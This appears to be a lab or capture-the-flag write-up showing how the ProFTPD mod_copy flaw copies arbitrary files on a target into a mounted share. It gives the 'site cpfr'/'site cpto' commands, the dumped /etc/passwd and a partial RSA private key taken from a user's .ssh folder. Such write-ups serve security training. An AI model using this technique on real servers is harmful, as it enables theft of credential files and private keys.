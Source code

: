 ### NMAP
```

```

### MOUNT
```

```
### FTP

Using the mod_copy exploit we are able to copy any file we like around the filesystem. To do this use the following commands:
```
nc 172.31.1.22

site cpfr "FILE YOU WANT"
site cpto "PLACE YOU WANT IT TO BE"
```

Using this we can copy the files to our mounted folder.

First we get the /etc/passwd file:
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
messagebus:x:102:104::/var/run/dbus:/bin/false
daniel:x:1000:1000:daniel,,,:/home/daniel:/bin/bash
statd:x:103:65534::/var/lib/nfs:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
```
Next we get the ssh key from `/home/daniel/.ssh/id_rsa`
```
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAtAYtMXjH4cxImGgb0VOMEN5elt91xMdTp/x2mBWEZpcyMOGE
YeGn9PZ2i9m1/xz2IgdW+WS8iDZNPBfErVpoPBhLcOsXxhN1Hqq+1BR9YuJWpOPV
LKgx9SAV96scS4Ds58kb1TvfHuUVXw01DlzCN1Pc4tkRuaKhWnpSsiB+lBx4y0Dq
AFYOykwO67+9hY8epEsRawR9G8EKkOSj1I/lkBT40kSy5+Ovxhut35e/FYqPBXZe
wri4hjU2u9EqDqNSv8hR+YKqLi5CXsxOosUIRdULqubqAQKcIXuwxBdQg1ecPCuG
CFqk4qWpiFjQ38etHwGpC3VqLBBW1HzbD+JIowIDAQABAoIBAGLvdgzXNPp523eu
14Ld6H8oxlEiM8XWSbpre/2u7Zm4BERq2+czLavpe1L2bhfrIbWn1PuwihBNz3p0
EYm3wsssCuHewa0A6n/VFJTXQeWDQFzUPUaSlQoC/S+koSM5knj7xEkW41NGUM1x
I7Rl8/KWKzGcXCpqH0TrLuFoDEh2xRaAYtHY+FPXItbaFE+VUhRw/hD95+IIdDQT
rhN4d1kPDytgXyNJCVDJNIAo+KZrVbdqigN5Sb9SbpP29OAaLUCnBLODksIrCCqK
LkZrata8ZoBypurtI3fc86dN0DPomXCr/udIsKwuoL42uzy07xEUypS7xUbQIDjC
0kpBbLkCgYEA4GC0CzuCXQkSjTwO8+q/fzcEp7cflRB8ftEMQ/bG4LEGZHMkQU08
UTJPTfbMo5LzW6bFf8aJB3jWTBWMxqSD8GHhUJsw7RMzisyvOYRSiPAJZ1RhzSNI
```